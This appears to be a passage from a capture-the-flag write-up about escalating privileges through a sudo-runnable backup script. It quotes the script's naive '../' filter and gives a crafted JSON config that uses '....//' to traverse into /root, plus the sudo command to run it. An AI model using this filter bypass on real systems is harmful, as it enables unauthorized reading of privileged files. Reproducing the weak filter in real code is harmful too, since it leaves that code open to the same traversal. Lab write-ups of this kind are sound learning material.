 ```bash frame="terminal" title="bash"

/usr/bin/backy "$json_file"
```
By reading it's code. it's a bash script that use a json file you provide and then go to a specific route (mentioned in the json file), compress files exists at that route and then put the compressed file in other specific route (mentioned in the json file).

Noticed, there are allowed paths in place `/var/`, `/home/` that you can choose to compress the files. Also in the script, you can see it uses `jq` to parse the json file and filter it from `../` preventing path traversal (But that is actually so easy to bypass)

```bash frame="terminal" title="bash"
allowed_paths=("/var/" "/home/")
updated_json=$(/usr/bin/jq '.directories_to_archive |= map(gsub("\\.\\./"; ""))' "$json_file")
```

Fine, but what is that json file looks like? i have no idea.....likely, i found an example file located in my dir, so i read it and it looks like this:
```json frame="terminal" title="json"
{
	"destination": "/home/martin/backups/",
	"multiprocessing": true,
	"verbose_log": false,
	"directories_to_archive": [
		"/home/app-production/app"
	],

	"exclude": [
		".*"
	]
}
```

Likely, we need to change that `directories_to_archive` parameter value to the `/root` directory so the script can gets it's files and compress it. To achieve that, we need path traversal. Since there is a filter for it that filters `../` we can easily bypass that by doubling the sequence `....//` so it will remeve one and leave one.

The json file created will look like the following:
```json frame="terminal" title="json"
{
	"destination": "/home/martin/backups/",
	"multiprocessing": true,
	"verbose_log": false,
	"directories_to_archive": [
		"/home/....//root/"
	],

	"exclude": [
		".*"
	]
}
```
You can then run the script on your file: `sudo /usr/bin/backy.sh testing.json`.
